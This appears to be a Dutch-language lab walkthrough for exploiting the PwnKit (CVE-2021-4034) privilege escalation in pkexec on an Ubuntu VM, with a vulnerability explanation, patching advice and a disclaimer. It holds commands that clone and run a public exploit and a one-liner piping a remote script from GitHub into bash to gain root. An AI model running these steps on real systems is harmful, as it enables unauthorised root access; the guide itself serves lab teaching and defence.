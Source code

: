 # CVE-2021-4034 (PwnKit) Exploitatie Gids

## 🎯 Overzicht

Deze gids demonstreert hoe je CVE-2021-4034 kunt exploiteren, een lokale privilege-escalatie kwetsbaarheid in de pkexec-component van Polkit. De exploit stelt een lokale gebruiker in staat om root-rechten te verkrijgen op kwetsbare systemen.

## 📋 Vereisten

- SSH-toegang tot de kwetsbare (Ubuntu) VM als gebruiker `tester`
- Internetverbinding om GitHub te bereiken
- Basiskennis van Linux command line
- Kali Linux VM voor exploitatie

## 🔍 Kwetsbaarheidsanalyse

### Technische Details
- **Component**: pkexec (Polkit)
- **Type Kwetsbaarheid**: Lokale Privilege Escalatie (LPE)
- **CVSS Score**: 7.8 (Hoog)
- **Oorzaak**: Out-of-bounds schrijven in argumentafhandeling

### Getroffen Systemen
- Ubuntu 18.04 (en andere Linux distributies)
- Systemen met Polkit versies voor de fix

## 🚀 Exploitatiestappen

### 1. Initiële Toegang

1. SSH naar de kwetsbare (Ubuntu) VM (vanaf de Kali Linux VM):
   ```bash
   ssh tester@<ubuntu_ip>
   ```

2. Controleer huidige rechten:
   ```bash
   id
   # Verwacht resultaat: uid=1000(tester) gid=1000(tester) groups=1000(tester)
   ```

### 2. Exploit Setup

#### Methode 1: Handmatige Setup

1. ssh naar de ubuntu vm
 ```bash
 ssh tester@<ubuntu_ip>
 ```

2. Clone de exploit repository:
   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   ```

3. Maak de exploit uitvoerbaar:
   ```bash
   chmod +x run.sh
   ```

4. Voer de exploit uit:
   ```bash
   ./run.sh
   ```

#### Methode 2: One-liner (Git)

```bash
ssh tester@<ubuntu_ip> \
  'git clone --depth 1 https://github.com/cd80-ctf/CVE-2021-4034.git \
   && cd CVE-2021-4034 \
   && chmod +x run.sh \
   && ./run.sh'
```

#### Methode 3: One-liner (Curl)

```bash
ssh tester@<ubuntu_ip> 'curl -sL https://raw.githubusercontent.com/cd80-ctf/CVE-2021-4034/main/run.sh | bash'
```

### 3. Verificatie

1. Na succesvolle exploitatie, controleer root-toegang:
   ```bash
   id
   # Verwacht resultaat: uid=0(root) gid=0(root) groups=0(root)
   ```

2. Test root-rechten:
   ```bash
   whoami
   # Verwacht resultaat: root
   ```

## 📚 Begrip van de Exploit

### Hoe het Werkt

1. De exploit maakt gebruik van een geheugencorruptie kwetsbaarheid in pkexec
2. Het manipuleert omgevingsvariabelen om de kwetsbaarheid te triggeren
3. De exploit creëert een kwaadaardige omgeving die leidt tot root-toegang

### Technische Details

De kwetsbaarheid bestaat omdat pkexec command-line argumenten niet correct verwerkt, wat leidt tot een out-of-bounds schrijven. Dit stelt een aanvaller in staat om geheugen te manipuleren en verhoogde rechten te verkrijgen.

## 🔒 Veiligheidsimplicaties

- Elke lokale gebruiker kan root-toegang krijgen
- Geen speciale rechten vereist
- Kan worden gebruikt als onderdeel van een grotere aanvalsketen

## 📝 Best Practices

1. **Voor Systeembeheerders**
   - Houd systemen up-to-date
   - Pas beveiligingspatches direct toe
   - Monitor voor verdachte activiteiten

2. **Voor Beveiligingsonderzoekers**
   - Gebruik alleen in gecontroleerde omgevingen
   - Documenteer alle testactiviteiten
   - Volg verantwoorde openbaarmaking

## 🙏 Credits

- Originele kwetsbaarheidsontdekking: **Qualys Security**
- Exploit code: [cd80-ctf](https://github.com/cd80-ctf/CVE-2021-4034)

## ⚠️ Disclaimer

Deze gids is alleen bedoeld voor educatieve doeleinden. De exploit mag alleen worden gebruikt in gecontroleerde omgevingen met de juiste autorisatie.